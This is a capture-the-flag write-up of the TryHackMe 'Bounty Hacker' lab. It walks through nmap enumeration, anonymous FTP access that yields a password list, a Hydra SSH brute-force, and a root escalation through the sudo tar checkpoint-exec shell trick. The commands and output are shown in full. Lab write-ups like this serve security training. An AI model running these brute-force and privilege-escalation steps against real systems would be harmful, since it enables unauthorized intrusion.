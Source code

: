 ```yaml
---
title: "Bounty Hacker"
date: 2025-01-22
image: /assets/img/tryhackme/BountyHacker/BountyHacker_image.jpg
description: Writeup of the TryHackMe-CTF Bounty Hunter
categories: [Tryhackme, Easy]
tags: [linux, web, ssh, hydra, bruteforce, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Bounty Hacker</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/r/room/cowboyhacker">https://tryhackme.com/r/room/cowboyhacker</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution to the CTF challenge Bounty Hacker

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap 10.10.66.27
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-22 04:25 EST
Nmap scan report for 10.10.66.27
Host is up (0.040s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 3.89 seconds
```
and enumerated the services nmap found in more depth using the `-A` flag:
```bash
$ nmap -A -p 21,22,80 10.10.66.27
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-22 04:27 EST
Nmap scan report for 10.10.66.27
Host is up (0.039s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.21.63.26
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.20 seconds
```
from here I analyzed the services one after another.

## FTP Analysis
As we can see in the nmap output the ftp server allow anonymous access. Therefore I trief to access the service:

```bash
$ ftp anonymous@10.10.59.122
Connected to 10.10.59.122.
220 (vsFTPd 3.0.3)
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||14671|)
```
It took me a while to actually see the files because of many timeouts. Thats why I switched to Filezilla which automatically try to reconnect. After some time I was able to download the following files:
```bash
$ cat task.txt
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin

$ cat locks.txt
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```
As we can see we got a potential username and probably a password list.

## HTTP Analysis
I analyzed the source code, performed enumeration and tried steganography techniques on all the images without getting anything.

## SSH Analysis
With the given username and the potential password list, I tried to brute force the ssh login using `hydra`
```bash
$ hydra -l lin -P locks.txt ssh://10.10.59.122
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-22 04:43:05
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.59.122:22/
[22][ssh] host: 10.10.59.122   login: lin   password: [removed]
```
Hydra found a valid credentails, which allowed me to login in and retrieve the user flag.
```bash
$ ssh lin@10.10.59.122
lin@bountyhacker:~/Desktop$ hostname
bountyhacker
lin@bountyhacker:~/Desktop$ cat user.txt
THM{*** removed ***}
```
## Privilege Escalation
For the root flag we need to escalate our privileges. I hab success by executing `sudo -l`
```bash
$ sudo -l
[sudo] password for lin:
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
A quick search in <a href="https://gtfobins.github.io/gtfobins/tar/#shell">gftobins</a> gave me all I needed:
```bash
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# cd /root
# cat root.txt
THM{*** removed ***}
```

solved! :)
